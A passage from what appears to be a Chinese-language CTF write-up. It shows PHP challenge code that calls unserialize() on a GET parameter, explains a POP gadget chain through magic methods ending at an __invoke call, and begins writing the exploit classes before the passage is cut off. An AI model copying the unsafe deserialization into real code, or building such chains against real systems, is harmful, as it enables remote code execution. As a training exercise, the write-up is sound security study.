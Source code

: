 ```php
    }


}

class secret_code
{
    protected $code;

    public static function secret()
    {
        include_once "hint.php";
        hint();
    }

    public function __call($name, $arguments)
    {
        $num = $name;
        $this->$num();
    }

    private function show()
    {
        return $this->code->secret;
    }
}


if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
    $a->setPassword(md5(mt_rand()));
} else {
    $a = new show("Ctfer");
    echo $a->show();
}
```

题目环境是 php 7.4, 图省事直接把所有属性的类型都改成 public

起点是 sorry 类的 `__destruct()`, 由 `echo $this->hint` 调用到 show 类的 `__toString()` 方法, 然后通过执行 `$this->ctf->show()` 跳转 secret_code 类的 `__call()` , 进而到 `show()` 方法, 在 `show()` 方法中访问不存在的属性, 跳转到 sorry 类的 `__get()`, 最后通过 `$name()` 跳到 fine 类的 `__invoke()`

pop 链构造如下

```php
<?php

class fine
{
    public $cmd;
    public $content;
}

class show
{
    public $ctf;
    public $time;
}

class sorry
{
    public $name;
    public $password;
    public $hint;
```